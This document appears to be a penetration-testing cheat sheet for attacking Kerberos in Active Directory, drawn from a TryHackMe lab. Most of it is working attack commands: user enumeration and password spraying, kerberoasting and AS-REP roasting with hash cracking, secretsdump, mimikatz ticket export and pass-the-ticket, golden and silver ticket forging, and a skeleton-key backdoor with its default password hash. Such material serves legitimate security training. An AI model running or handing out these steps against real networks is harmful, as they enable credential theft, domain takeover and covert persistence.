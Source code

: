 # kerberos 101

## Kerberos Authentication

![](../.gitbook/assets/kerberos-auth.png)

### Enumerating Users using [Kerbrute](https://github.com/ropnop/kerbrute/releases)

```bash
./kerbrute -dc DC_IP -d DOMAIN USER.txt -t 50
```

### Harvesting TGTs using [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
Rubeus.exe harvest /interval:30

# password spray 
Rubeus.exe brute /password:Password1 /noticket
```

### kerberoasting

Allows user to request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to
crack service password.

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound/releases)
* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

```bash
# using Rubeus.exe
Rubeus.exe kerberoast

# dump the Kerberos hash for all kerberoastable accounts
impacket-GetUserSPNs DOMAIN/USER:'PASS' -dc-ip DC_IP -request
hashcat -m 13100
```

* If the service account is domain admin > Golden/Silver ticket > dumping the NTDS.dit.
* If the service account is not domain admin > log into system with creds > pivot/escalate > password spray other
  service and domain admin accounts

### AS-REP Roasting | (only for users with Kerberos pre-authentication disabled)

* Dumps the krbasrep5 hashes of user accounts
* If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an
  encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who
  they say that they are.
* This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the
  specified user account.

```bash
# using Rubeus.exe
Rubeus.exe asreproast
# add $23 after $krb5asrep$
# hashcat -m 18200

# Impacket's GetNPUsers.py
# Enumerate the users > user.txt
GetNPUsers.py DOMAIN/ -usersfile user.txt -format hashcat -outputfile hash.asreproast
# hashcat -m 18200

secretsdump.py USER@DOMAIN-IP
```

### Pass-the-ticket using mimikatz

* Can be used for dumping user credentials inside an AD network
* Can dump the TGT from the LSASS memory (which stores Kerberos ticket as the gatekeeper and accept or reject the
  credentials provided)
* Gives a .kirbi ticket - can be used to get domain admin
* Allows to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

### Golden / Silver ticket attack using mimikatz

* Silver ticket => more stealth and discreet; only for target service
* Golden ticket => any kerberos service

NOTE:

* **KRBTGT: **service account in KDC; issues all TGTs. If impersonate this account and create a golden ticket we have
  ability to create a service ticket for any service
* **TGT:** ticket to a service account issued by the KDC and can only access that service.

#### Golden Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: krbtgt

# create ticket golden
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

#### Silver Ticket

```bash
# dump
lsadump::lsa /inject /name: [<domain-admin-account> | <service-account>]

# create ticket silver
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

### Kerberos backdoor using mimikatz

* Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.
* A skeleton key only works using Kerberos RC4 encryption.
* The default hash skeleton key is `60BA4FCADC466C7A033C178194C03DF6` (password:`mimikatz`)

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

## References

* [TryHackMe:attackingkerberos](https://tryhackme.com/room/attackingkerberos)
* [Kerberos Authentication Image](https://www.manageengine.com/products/active-directory-audit/kb/windows-security-log-event-id-4768.html)